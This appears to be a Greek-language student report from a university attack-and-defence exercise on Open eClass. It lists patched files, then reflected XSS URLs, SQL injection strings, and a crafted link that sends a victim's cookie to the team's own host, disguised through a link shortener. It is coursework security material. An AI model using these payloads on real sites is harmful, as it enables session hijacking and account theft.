 8)	/include/lib/main.lib.php
-	**στην safe_filename περάσαμε το τυχαίο κλειδί σε md5 για να αυξηθεί το μέγεθος του**
9)	/modules/course_info/infocours.php
-	whitelist γλωσσών
10)	/modules/course_info/restore_course.php
-	whitelist γλωσσών <br> 
	**die σε αρχεία exe php js html css jsp json**
11)	/modules/course_tools/course_tools.php
-	**die όλα τα αρχεία εκτός από html**
12)	/modules/phpbb/functions.php
-	whitelist γλωσσών
13)	/upgrade/upgrade.php
-	whitelist γλωσσών


## Μέρος 2ο: Επιθέσεις

Η αντίπαλη ομάδα που μας ανατέθηκε ήταν η: 
ChaosNet: chaosnet.csec.chatzi.org

Πριν από οτιδήποτε άλλο προσπαθήσαμε να πραγματοποιήσουμε κάποια XSS επίθεση με βάση το ευάλωτα σημεία που βρήκαμε στο site του openeclass. Έτσι σκοπός μας ήταν να εντοπίσουμε σημεία που περνάει το script:

                                              <script>alert(1)</script>

Πατώντας τα ακόλουθα URLs καταφέραμε να εμφανίσουμε το script της επιλογής μας στο αντίπαλο site:

1.	http://chaosnet.csec.chatzi.org/modules/auth/newprof.php?uname='><script>alert(1)</script>
2.	http://chaosnet.csec.chatzi.org/modules/auth/newuser.php?uname='><script>alert(1)</script>
3.	http://chaosnet.csec.chatzi.org/modules/phpbb/reply.php?topic=<script>alert(1)</script>&forum=<script>alert(2)</script>
4.	http://chaosnet.csec.chatzi.org/modules/agenda/myagenda.php?month=5&year=<script>alert(1)</script>
5.	http://chaosnet.csec.chatzi.org/modules/auth/ldapnewuser.php?ldap_email='><script>alert(1)</script> 
	
	Επίσης προσπαθήσαμε να κάνουμε SQL Injections σε διάφορες φόρμες που υπήρχαν κατά μήκος του site αλλά και σε ορισμένα URLs βάζοντας στο αντίστοιχο input του χρήστη την τιμή  'OR 1=1-- ή αντίστοιχα 'OR '1'='1-- αποσκοπώντας στο να αντλήσουμε πληροφορίες από τη βάση. Δυστυχώς δεν πέτυχε κάποια από αυτές τις επιθέσεις. 
	
	Στη συνέχεια γνωρίζοντας τις ευπάθειες ως προς το XSS διαμορφώσαμε ένα URL, τέτοιο ώστε να κάνει αυτόν που το πατά redirect στην σελίδα 
  
                                            omadapiraulos.puppies.chatzi.org
                                              
Το URL αυτό περνά φευγαλέα από την σελίδα chaosnet.csec.chatzi.org με σκοπό να αποκτήσουμε το cookie του χρήστη που πατά το ακόλουθο link

http://chaosnet.csec.chatzi.org/modules/auth/newprof.php?uname='><script>window.location='http://omadapiraulos.puppies.chatzi.org/?c='.concat(document.cookie);</script>

Το προηγούμενο URL περάστηκε από link shortener και τελικά προέκυψε το link 

                                            https://qrgo.page.link/oMVeE
